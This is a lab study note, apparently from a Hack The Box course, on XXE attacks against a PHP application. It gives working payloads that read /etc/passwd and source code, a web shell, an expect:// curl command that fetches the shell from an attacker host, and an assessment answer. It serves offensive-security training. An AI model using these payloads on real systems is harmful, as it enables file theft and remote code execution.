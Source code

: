 ```yaml
---
description: >-
  When a web application trusts unfiltered XML data from user input, we may be
  able to reference an external XML DTD document and define new custom XML
  entities
---
```


# Local File Disclosure

## Identification

1. find page that accept XML input

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_identify.jpg" alt=""><figcaption><p>http://SERVER_IP:PORT/index.php</p></figcaption></figure>

if we click Send Data, the request will be as following

![xxe\_request](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_request.jpg)

The application is sending data in XML format to web server. If the web app uses outdated XML libraries and sanitize or have any filters, we may be able to exploit this XML to read local files.

![xxe\_response](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_response.jpg)

The value of email element is returned back to us `email@xxe.htb`. This is **important to know what element is displayed back** so we know where to inject.

Now try to create new entity to be placed in the `email` element and see if it gets replaced with the defined value.

```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

{% hint style="info" %}
In the original request it has no DTD in the XML data or being referenced externally so we add new DTD before defining our entity (if DOCTYPE was already defined, we can just ignore it and add the entity alone)
{% endhint %}

![new\_entity](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_new\_entity.jpg)

As seen in the response we referenced the entity and it was replaced with `Inlane Freight` This confirms that the web app is vulnerable to XXE.

> a non-vulnerable web application would display (`&company;`) as a raw value.

{% hint style="info" %}
Some web app may use JSON by default but also accept XML. So it's worth trying XML by changing the Content-Type to application/xml and [convert the JSON request to XML](https://www.convertjson.com/json-to-xml.htm)
{% endhint %}

## Reading Sensitive Files

Doing the same steps as [Identification](local-file-disclosure.md#identification) but we will add the SYSTEM keyword and define external reference path as a value after it.

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

![external\_entity](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_external\_entity.jpg)

**we have successfully exploited the XXE vulnerability to read local files**

> Check for config files, SSH keys, and other use full files that might help on compromising the system.

## Reading Source Code

This might reveal secret configurations like database passwords or API keys.

![file\_php](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_file\_php.jpg)

**The file is not in a proper XML format**, so it fails to be referenced as an external XML entity. **If a file contains some of XML's special characters (e.g. \</>/&), it would break the external entity reference** and not be used for the reference.

We can use PHP wrapper filter to encode the contents to base64, Instead of using `file://` we use `php://filter/` wrapper and specify `convert.base64-encode` following with the file name.

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

![file\_php](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_php\_filter.jpg)

{% hint style="warning" %}
This encoding technique only works with PHP web app!
{% endhint %}

## RCE with XXE

Best way

* Look for `id_rsa` file, or
* Steal hash from windows

**Other way**

* Execute command using `PHP://expect` (only works when expect is installed and enabled)

Most efficient to turn XXE -> RCE is fetching web shell from our server and writing it to web app

**On attack machine**

```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

**XML body**

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

&#x20;Note that all spaces are replaced with $IFS as learned in [filter-evasion.md](../../command-injection/filter-evasion.md "mention") to not break the syntax (other special characters may break the code so try avoiding them)

Once sent we will get the recieve message for shell.php file in our console and we can interact with the web shell for code execution.

## Other XXE Attacks

* **SSRF exploitation ->** used to enumerate locally open ports and access their pages
* **DOS ->** causing self-reference loops
  * no longer works on modern web servers becase they protect against entitiy self-reference

## Assessment

Try to read the content of the 'connection.php' file, and submit the value of the 'api\_key' as the answer.

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption><p>email element is the target</p></figcaption></figure>

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
<!ENTITY target SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
<root>
<name></name>
<tel></tel>
<email>&target;</email>
<message></message>
</root>
```

<figure><img src="../../../.gitbook/assets/image (88).png" alt=""><figcaption><p>UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg</p></figcaption></figure>
